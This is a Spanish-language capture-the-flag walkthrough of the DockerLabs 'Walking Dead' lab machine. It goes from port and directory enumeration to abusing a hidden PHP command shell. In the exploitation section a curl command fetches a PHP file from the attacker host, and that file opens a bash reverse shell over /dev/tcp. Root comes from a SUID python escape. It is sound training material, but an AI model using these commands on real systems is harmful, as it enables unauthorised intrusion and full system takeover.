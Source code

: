 #MAQUINA #DOCKERLABS #FACIL 
#RCE 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Walking Dead** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 10:16 CET
Initiating ARP Ping Scan at 10:16
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 10:16, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:16
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 10:16, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-15 10:16:24 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 10:16 CET
Nmap scan report for gatekeeperhr.com (172.17.0.2)
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0d:09:9d:0f:dc:43:54:cd:39:a9:e2:d6:81:74:40:e8 (RSA)
|   256 09:d0:f6:52:00:3f:21:51:19:b1:c6:7a:f4:ff:21:01 (ECDSA)
|_  256 19:e0:b3:72:bd:e9:1e:8d:4c:c4:fd:1f:da:3f:a5:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Walking Dead - CTF
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds

```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 10:17 CET
Nmap scan report for gatekeeperhr.com (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /hidden/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds



```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

Vemos un directorio **hidden** que puede ser interesante.

## HTTP (80)
Al revisar la web que hay en el puerto 80 utilizando **gobuster**:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,js,txt,png,jpg    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1380]
/backup.txt           (Status: 200) [Size: 53]
/hidden               (Status: 301) [Size: 309] [--> http://172.17.0.2/hidden/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 275]
Progress: 8916824 / 8916831 (100.00%)
===============================================================
Finished
===============================================================

```

En el **backup.txt** no hay nada interesante y al usar gobuster en **hidden** no encontramos nada.

Sin embargo, al hacer ctrl + u en el **index.html**, vamos lo siguiente:

```html
<p class="hidden-link"><a href="[hidden/.shell.php](view-source:http://172.17.0.2/hidden/.shell.php)">Access Panel</a></p> </body> </html>
```

# EXPLOTACION

Vamos a utilizar **wfuzz** para intentar ver el parámetro de esa shell:

   ```bash

fuzz -u "http://172.17.0.2/hidden/.shell.php?FUZZ=ls /etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  --hl=0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/hidden/.shell.php?FUZZ=ls%20/etc/hosts
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000004986:   200        1 L      1 W        11 Ch       "cmd"


```

Vemos la ruta y subimos una reverse shell:

```bash
cmd=curl 172.17.0.1:8000/wp.php -o /var/www/html/wp.php
```

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

YA ESTAMOS COMO WWW-DATA.

# ESCALADA PRIVILEGIOS

Vemos si hay archivos con permisos SUID:

   ```bash
www-data@2ed43105b7bb:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/man
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/python3.8
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

Vemos **python** con permisos SUID :
   ```bash
www-data@2ed43105b7bb:/var/www/html$ /usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```

**YA ESTAMOS COMO ROOT.**